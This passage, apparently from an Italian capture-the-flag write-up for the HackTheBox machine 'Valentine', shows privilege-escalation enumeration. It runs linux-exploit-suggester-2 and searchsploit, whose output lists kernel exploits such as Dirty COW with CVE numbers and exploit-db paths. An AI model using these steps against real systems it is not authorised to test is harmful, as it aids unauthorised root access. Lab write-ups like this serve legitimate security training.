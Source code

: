 ```bash
```

Gli diamo i permessi di esecuzione  e lo eseguimao  
```bash
hype@Valentine:~$ chmod 777 linux-exploit-suggester-2.pl
hype@Valentine:~$ ./linux-exploit-suggester-2.pl 

  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 3.2.0
  Searching 72 exploits...

  Possible Exploits
  [1] dirty_cow
      CVE-2016-5195
      Source: http://www.exploit-db.com/exploits/40616
  [2] exploit_x
      CVE-2018-14665
      Source: http://www.exploit-db.com/exploits/45697
  [3] msr
      CVE-2013-0268
      Source: http://www.exploit-db.com/exploits/27297
  [4] perf_swevent
      CVE-2013-2094
      Source: http://www.exploit-db.com/exploits/26131

#Utiliaziamo searchspolit 
┌──(root㉿kali)-[/home/kali/htb/valentine]
└─# searchsploit dirt cow            
---------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                          |  Path
---------------------------------------------------------------------------------------- ---------------------------------Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (1)                  | linux/dos/43199.c
Linux Kernel - 'The Huge Dirty Cow' Overwriting The Huge Zero Page (2)                  | linux/dos/44305.c
Linux Kernel 2.6.22 < 3.9 (x86/x64) - 'Dirty COW /proc/self/mem' Race Condition Privile | linux/local/40616.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW /proc/self/mem' Race Condition Privilege Escalat | linux/local/40847.cpp
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW PTRACE_POKEDATA' Race Condition (Write Access Me | linux/local/40838.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Condition Privilege Esca | linux/local/40839.c
Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' /proc/self/mem Race Condition (Write Access Met | linux/local/40611.c
---------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
